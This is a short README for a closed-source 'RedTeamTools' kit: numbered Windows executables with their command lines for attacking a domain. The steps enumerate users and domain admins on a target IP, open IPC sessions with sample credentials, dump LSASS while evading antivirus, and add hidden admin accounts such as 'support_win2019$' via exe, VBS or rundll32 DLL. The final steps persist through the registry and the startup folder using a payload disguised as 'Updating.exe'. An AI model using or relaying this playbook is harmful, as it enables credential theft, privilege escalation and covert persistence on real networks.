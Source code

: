 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

